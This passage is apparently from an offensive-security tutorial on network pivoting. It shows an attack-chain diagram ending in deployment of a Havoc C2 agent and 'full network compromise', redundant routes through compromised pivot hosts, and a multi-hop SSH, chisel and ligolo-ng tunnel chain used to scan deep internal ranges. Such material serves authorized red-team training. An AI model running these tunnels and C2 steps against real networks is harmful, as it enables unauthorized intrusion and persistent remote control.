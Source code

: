 ```mermaid
    A->>A: Configure TUN interface
    
    Note over A,C: Phase 5: Workstation Compromise
    A->>W: Lateral movement (direct via TUN)
    W-->>A: PowerShell session established
    
    Note over A,C: Phase 6: Final Pivot
    A->>W: Deploy Havoc C2 agent
    W->>A: C2 channel: Workstation→Attacker
    A->>C: Access critical systems (via C2)
    
    Note over A,C: Result: Full Network Compromise
```

#### Implementation Strategy:

1. **Initial Foothold**: Compromise externally accessible system
2. **Network Reconnaissance**: Enumerate internal network topology
3. **Lateral Movement**: Establish additional compromised hosts
4. **Route Optimization**: Configure efficient traffic routing
5. **Persistence**: Maintain reliable communication channels

### 13.2 Hierarchical Routing Implementation

```bash
# Primary route through most stable pivot
ip route add 10.10.0.0/16 via 192.168.1.100 dev eth0 metric 1

# Secondary route for redundancy
ip route add 10.10.0.0/16 via 192.168.1.101 dev eth0 metric 10

# Tertiary route through alternative path
ip route add 10.10.0.0/16 via 192.168.1.102 dev eth0 metric 20

# Load balancing across multiple paths
ip route add 10.10.0.0/16 nexthop via 192.168.1.100 weight 1 nexthop via 192.168.1.101 weight 1
```

### 13.3 Cascade Tunneling Example

```bash
# Hop 1: SSH tunnel to DMZ host
ssh -D 9050 user@dmz_host

# Hop 2: Chisel through first tunnel
proxychains chisel client internal_host:8080 R:socks2

# Hop 3: Ligolo-ng through second tunnel
proxychains ./agent -connect deep_internal:11601

# Hop 4: Direct tool access through all hops
proxychains nmap -sT critical_network_range
```
